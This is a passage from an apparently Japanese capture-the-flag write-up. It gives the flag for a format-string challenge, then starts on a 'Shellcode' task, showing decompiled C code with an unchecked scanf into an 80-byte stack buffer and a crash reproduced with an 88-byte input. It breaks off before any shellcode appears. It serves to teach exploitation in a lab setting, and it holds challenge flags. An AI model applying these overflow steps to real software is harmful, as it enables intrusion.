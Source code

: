 ```shell
[*] Closed connection to 10.1.1.10 port 13030
$ 
```

ということで Format string bug を使ってフラグを得ることができました。
```
flag{Homenum_Revelio_1989}
```

## Shellcode (300 pts, 51 solves)
```
添付されたファイルを解析し、以下にアクセスしてフラグを入手してください。

nc 10.1.1.10 13050

この設問では Linux ターミナルを使用します。
https://ctf.setodanote.net/webshell/
```

shellcode ファイルを [Ghidra](https://ghidra-sre.org/) でデコンパイルすると以下のようなコードになりました。"target | " の後に入力された文字列が書き込まれるバッファのアドレスが表示されるようです。

```C
undefined8 main(void)

{
  char local_58 [80];
  
  setvbuf(stdout,local_58,2,0x50);
  puts("       |");
  printf("target | [%p]\n",local_58);
  puts("       |");
  printf("Well. Ready for the shellcode?\n> ");
  __isoc99_scanf("%[^\n]",local_58);
  puts(local_58);
  return 0;
}
```

shellcode ファイルにだんだんサイズを大きくしながら文字列 "AAA..." の入力を与えてみると、88バイト分入力したところで segmentation fault になりました。おそらく88バイトの最後の8バイトがスタック上に保存された RBP の値を "AAAAAAAA" で上書きしたためと思われます。

```shell
$ python3 -c 'import os; os.write(1, b"A"*88+b"\n")' | ./shellcode
       |
target | [0x7fffda4fc730]
       |
Well. Ready for the shellcode?
> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
       |
target | [0x7fffda4fc730]
       |
Well. Ready for the shellcode?
> AAAAAAAAAAAAAAAAAAAAAAAAEJ4`U
Segmentation fault
$
```
